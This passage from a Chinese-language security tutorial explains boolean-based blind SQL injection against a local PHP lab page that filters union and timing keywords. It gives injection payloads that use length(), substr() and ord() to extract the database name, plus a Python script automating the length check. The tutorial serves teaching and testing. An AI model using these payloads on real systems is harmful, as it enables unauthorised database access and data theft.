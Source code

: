 我们可以看到代码中还是通过`get` 方式获取`id` 的值，并且拼接到SQL语句中，但是前面做了一个正则匹配，如果检测到`union` 、`sleep` 、`benchmark` 就退出并返回`no` ，而且使用了`i` 修正符，因此会不区分大小写去文本中匹配 php，这意味着我们无法使用联合注入以及延时注入，并且是无法用大小写绕过的，后面的判断条件是如果SQL执行成功就会返回`yes` ，否则返回`no` ，这里可以判断为典型的boolean注入，我们可以使用如下过程模拟攻击者对系统发起攻击。

1. 通过 `' and length(database())>=num --+` 判断数据库名称长度，由于我们可以看到`id` 参数被`'` 包围，因此我们先闭合前面的单引号，使得后面我们的`payload` 得以正常执行。
2. 通过 `' and substr(database(),1,1)='t' --+` 逐字符判断的方式（不区分大小写）获取数据库名或通过 `' and ord(substr(database(),1,1)) = 115 --+`使用`ASCII` 转换函数`ord` 逐字符判断，这里里`substr` 是截取`database()` 的值，从第`1` 个字符开始，每次只返回`1` 个，这里不要与上面的`limit` 弄混，`limit` 是从`0` 开始排序的。

![&apos; and length\(database\(\)\)&amp;gt;=6 --+](../../../.gitbook/assets/tu-pian%20%2851%29.png)

当我们测试数据库长度大于等于`6` 时，报了`no` ，说明数据库长度为`5`

![&apos; and substr\(database\(\),1,1\)=&apos;u&apos; --+](../../../.gitbook/assets/tu-pian%20%28108%29.png)

当我们测试数据库第一个字符为`u` 时，报了`yes` ，说明数据库库名第一个字母为`u` ，我们可以写一个python脚本，来代替我们实现这一繁琐的过程。

```text
import requests

url = 'http://127.0.0.1/boolean.php?id=1'
for num in range(0,10):
    length_check_poc = "' and length(database())>=" + str(num) + " --+"
    r = requests.get(url + length_check_poc)
    if r.text == 'no':
        print('[+]数据库库名长度为： ' + str(num-1))
        exit()
```

我们可以看到数据库库名长度为`5`

![&#x5224;&#x65AD;&#x6570;&#x636E;&#x5E93;&#x5E93;&#x540D;&#x957F;&#x5EA6;](../../../.gitbook/assets/tu-pian%20%2846%29.png)
